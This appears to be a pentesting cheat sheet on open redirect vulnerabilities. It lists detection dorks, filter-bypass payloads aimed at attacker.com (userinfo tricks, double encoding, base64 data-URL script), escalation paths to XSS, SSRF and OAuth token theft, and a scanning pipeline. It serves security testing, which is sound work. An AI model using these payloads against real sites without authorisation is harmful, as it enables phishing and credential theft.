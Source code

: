 # Detection
- Look for redirect parameters (`redirect`, `redir`, `RelayState`, `next`, `u`, `n`, `forward`) in Burp HTTP history.
  ```bash
  https://example.com/login?redirect=https://example.com/dashboard    # absolute URL
  https://example.com/login?next=/dashboard                           # relative URL
  https://example.com/login?next=dashboard                            # relative URL without /
  ```
- Use Google Dorks to find additional redirect parameters
  ```bash
  inurl:"%3Dhttp" | inurl:"%3D%2F" | inurl:redir | inurl:redirect | inurl:redirecturi | inurl:redirect_uri | inurl:redirecturl | inurl:redirect_uri | inurl:return | inurl:returnurl | inurl:relaystate | inurl:forward | inurl:forwardurl | inurl:forward_url | inurl:url | inurl:uri | inurl:dest | inurl:destination | inurl:next site:example.com
  ```
- Test for parameter-based Open Redirects
  ```bash
  https://example.com/login?n=http://google.com       # random hostname
  https://example.com/login?n=http://attacker.com     # hostname you own
  ```

# Bypass
- Browsers redirect users to the location indicated by the `hostname` section of the URL.
  ```bash
  scheme://userinfo@hostname:port/path?query#fragment
  ```
- URL validator checks if the redirect URL **starts with**/**contains**/**ends with** the site’s domain name.
  - Add `a` in each part of redirection value, to findout which part is filtered  →  *redir=`a`http://`a`target`a`.`a`tld`a`/`a`param`a`*
  ```bash
  # ends with
  redir=https://attacker.com/?url=http://target.tld           # URL-parameter
  redir=https://attacker.com/target.tld
  
  # starts with
  redir=https://target.tld@attacker.com                       # Username portion of URL
  redir=https://target.tld@attacker.com/target.tld
  redir=https://target.tld%40attacker.com
  redir=https://target.tld.attacker.com                       # Subdomain
  redir=https://target.tld.attacker.com/target.tld
  
  # contains
  redir=https://attackertarget.tld                            # New domain
  ```
- Use path normalization (`/../`) to go to another path
  ```bash
  redir=http://open-door.local:900/hi/../level1/?url=https://google.com/?url=http://open-door.local
  ```
- Use capital leters to bypass some regex:
  ```bash
  rredir=http://open-door.local:900/hi/../Level1/?url=https://google.com/?url=http://open-door.local
  ```
- Using browser autocorrect
  ```bash
  redir=https:attacker.com                      # https:// or http:// are blacklisted
  redir=https;attacker.com
  redir=https:\/\/attacker.com
  redir=https:/\/\attacker.com
  redir=https://attacker.com\@example.com       # correction of \ to /
  redir=https://google。com                     # Non-ASCII dot 。 or %E3%80%82
  ```
- Using Data URLs
  - Data URLs use the `data:` scheme to embed small files in a URL. (`data:MEDIA_TYPE[;base64],DATA`)
    ```bash
    data:text/plain,hello!                   # Send a plaintext message with the data scheme
    data:text/plain;base64,aGVsbG8h          # Using the optional base64 specification in the preceding message
    ```
  - Redirect to attacker.com with `<script>location="https://attacker.com"</script>`
    ```bash
    https://target.tld/login?redir=data:text/html;base64,PHNjcmlwdD5sb2NhdGlvbj0iaHR0cHM6Ly9hdHRhY2tlci5jb20iPC9zY3JpcHQ+
    ```
- Exploiting URL Decoding
  - Double (or triple) URL-Encoding
    ```bash
    https://target.tld%2f@attacker.com
    https://target.tld%252f@attacker.com
    https://target.tld%25252f@attacker.com
    ```
  - Non-ASCII Characters
    ```bash
    https://attacker.com%ff.target.tld         # ÿ
    https://attacker.com%E2%95%B1.target.tld   # ╱ (it is not slash /)
    ```
- Combining Exploit Techniques
  ```
  https://target.tld%252f@attacker.com/target.tld
  ```
  
# Escalate
- Escalate redirection to XSS  →  `...#javascript:alert(origin)`
- It redirects an unsuspecting victim from a legitimate domain to an attacker's phishing site (Low severity)
- Bypass SSRF domain whitelist to achieve full-blown SSRF.
- Induce an Open Redirect to steal the credentials/OAuth-tokens via the referer header, as when a page redirects to another site, browsers will include the originating URL as a referer HTTP request header.

# REcollapse
- https://github.com/0xacb/recollapse
- Black-box regex fuzzing to bypass validations and discover normalizations.
- Find out which locations in the parameter string we are able to change.
  ```bash
  recollapse http://open-door.local:900/
  ```

# Methodology
- Website  →  FLinks  →  HTTPx  →  Nuclei
  ```bash
  python3 flinks.py -i assets -o flinks-out
  cat flinks-out | httpx -silent | tee assets-httpx -fc 404,403,301,500 | nuclei -t open-redirect.yaml
  ```

# Tip
- In most sites, the redirect won’t happen until after a user action, like registration, login, or logout. In those cases, be sure to carry out the required user interactions before checking for the redirect
- Fuzz to discover hidden parameters
  - If the endpoint does not have parameter, try to fuzz (for example `/logout`)
  - If the endpoint has parameter, try to add new parameters to the query string
- In a **Register** page, we should discover hidden parameters, then
  - Reflect  →  XSS
  - HTTP request  →  SSRF
  - Redirect  →  Open Redirect 
- Some pages (like `login/logout`, `register`, `change site language`, `links in email`) automatically redirect users, even though they don’t contain redirect parameters in their URLs.
    - These pages are candidates for referer-based open redirects.
    - Search for 3XX response codes like 301 and 302 that indicate a redirect.
    - Test for referer-based open redirects on any page that redirect users despite not containing a redirect URL parameter, by set up a page on a domain you own and host this HTML page. Then click the link and see if you get redirected to your site automatically or after the required user interactions.
      ```bash
      <html>
         <a href="https://example.com/login">Click on this link!</a>
      </html>
      ```
      
# Resource
- https://book.hacktricks.xyz/pentesting-web/open-redirect
- https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Open%20Redirect
